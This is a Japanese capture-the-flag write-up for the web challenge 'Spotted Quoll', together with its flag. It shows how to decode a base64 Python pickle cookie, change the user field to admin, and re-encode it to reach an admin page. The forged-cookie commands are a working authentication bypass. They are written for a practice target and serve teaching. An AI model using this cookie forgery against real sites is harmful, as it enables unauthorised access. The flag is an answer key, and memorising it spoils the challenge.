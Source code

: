 # Spotted Quoll 
Category: Web  
Point: 50

## Question
[This](https://spotted-quoll.ctfcompetition.com/) blog on Zombie research looks like it might be interesting - can you break into the /admin section?

## FLAG
`CTF{but_wait,theres_more.if_you_call}`

## Answer
ページにアクセスすると，変哲もないWebサイトに，Adminユーザのためのリンクが存在するが，リンクを踏んでもフラグは表示されない．  
また自動的に`obsoletePickle`という名前に何らかの値が乗ったCookieが与えられる．
`obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu`  
方針としては，このCookieを利用して，adminになりすますことが考えられる．

手始めに，Cookieの値をBase64でデコードする．
```bash
$ echo 'KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu' | base64 -D
(dp1
S'python'
p2
S'pickles'
p3
sS'subtle'
p4
S'hint'
p5
sS'user'
p6
Ns.
```

デコード結果より，明らかに`python`や`pickles`といったキーワードが引っかかる．

Pythonには，pickleと呼ばれるオブジェクトを直列化するためのモジュールが存在しており（[参考](http://docs.python.jp/3/library/pickle.html)），
どうやら，このモジュールを使うようだと算段がつく．
```python
>>> import pickle
>>> import base64
>>> cookies = 'KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu'
>>> data = pickle.loads(base64.b64decode(cookies))
>>> data
{'python': 'pickles', 'subtle': 'hint', 'user': None}
```
ここで，`data`の中身を見ると，`user`キーの値が，`None`になっていることがわかる．
そのため，ここを`admin`にしたうえで，もう一度pickleで直列化し，base64エンコードすれば良さそうだと思われる．

```python
>>> data['user'] = 'admin'
>>> admin_cookies = base64.b64encode(pickle.dumps(data))
>>> admin_cookies
b'KGRwMApWc3VidGxlCnAxClZoaW50CnAyCnNWdXNlcgpwMwpWYWRtaW4KcDQKc1ZweXRob24KcDUKVnBpY2tsZXMKcDYKcy4='
```

これで，`user`キーの値を`admin`に変更したpickleオブジェクトをBase64エンコードしたもの
`KGRwMApWc3VidGxlCnAxClZoaW50CnAyCnNWdXNlcgpwMwpWYWRtaW4KcDQKc1ZweXRob24KcDUKVnBpY2tsZXMKcDYKcy4=`  
が出来上がった．

あとは，これをCookieの`obsoletePickle`にセットして，adminページにリンクすると，フラグが表示される．

## Author
GitHub: @asakasa

